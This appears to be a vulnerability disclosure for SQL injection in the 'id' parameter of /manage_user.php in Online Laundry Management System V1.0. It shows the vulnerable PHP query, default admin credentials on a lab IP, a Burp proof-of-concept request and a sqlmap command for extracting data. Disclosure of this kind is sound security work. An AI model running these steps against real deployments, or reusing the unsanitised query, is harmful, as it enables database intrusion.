

## Online Laundry Management System

## SQL Injection on `/manage_user.php`

### Vendor Homepage:

```
https://www.campcodes.com/downloads/online-laundry-management-system-source-code/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/login.php
admin
admin123
```

### Affected Page:

```
/manage_user.php
```

The potential injection point is located in `manage_user.php`. This file directly utilizes the `$id`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
include('db_connect.php');
if(isset($_GET['id'])){
$user = $conn->query("SELECT * FROM users where id =".$_GET['id']);
foreach($user->fetch_array() as $k =>$v){
	$meta[$k] = $v;
}
}
```

### Proof of Concept:

**Burp Request:**

```
GET /manage_user.php?id=1 HTTP/1.1
Host: 192.168.150.131
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Referer: http://192.168.150.131/index.php?page=users
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=n44uhtjl91qpq3qufkq5go5lvb
Connection: close


```

```
python3 sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

**Screenshot**


